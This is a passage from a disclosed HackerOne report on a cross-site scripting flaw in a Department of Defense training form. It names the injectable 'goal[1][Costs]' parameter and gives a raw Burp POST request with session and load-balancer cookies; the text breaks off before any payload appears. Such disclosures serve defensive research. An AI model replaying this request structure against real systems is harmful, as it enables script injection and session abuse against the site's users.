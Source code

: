 # Xss  - ███

## Report Details
- **Report ID**: 2353185
- **URL**: https://hackerone.com/reports/2353185
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-02T21:16:35.025Z
- **Disclosed**: 2024-03-22T17:47:21.719Z

## Reporter
- **Username**: chor4o
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi teams,

Parameter: goal[1][Costs] ███

Burp request

POST /HRO/Training/idpgenerate.php HTTP/1.1
Content-Type: multipart/form-data; boundary=----------YWJkMTQzNDcw
Accept: */*
Referer: https://██████/
Cookie: PHPSESSID=l7c1vrsg3dbkgsp2lturjs6kca; session=expiry=1706891234033569; f5avraaaaaaaaaaaaaaaa_session_=DPCHLFADPAJCEMEHGHPOJHBKFGOENAGMGICMOOEBEBBAAMBIPCONEIJCEAGKJOOHAKODPBGOGKMAGOAEFOLAEJAKGNEKCIDJNPNMNCNBDOBDLCEGHGMMPGOEGEOPDMHD; BIGipServerweb-ext_pl=!EeLnWrrwaS8YcvQX1TcgTbCc8QSXMr/IS1+eEgDpVv96YCkn5MOqzqftXSRg0sMRVo16MATZlNeRUg==; nmstat=3aa48c20-a118-1d8b-744c-1042bec21eb1; _ga=GA1.1.736871804.1706875700; _gid=GA1.2.331161195.1706875701; _gat=1; _ga_LY79N0FLBS=GS1.1.1706890028.4.1.1706890425.0.0.0
Content-Length: 3504
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Host: ███
Connection: Keep-alive

------------YWJkMTQzNDcw
Content-Disposition: form-data; name="employeeName"

tsSLAueP
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="payGrade"

1
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="positionTitle"
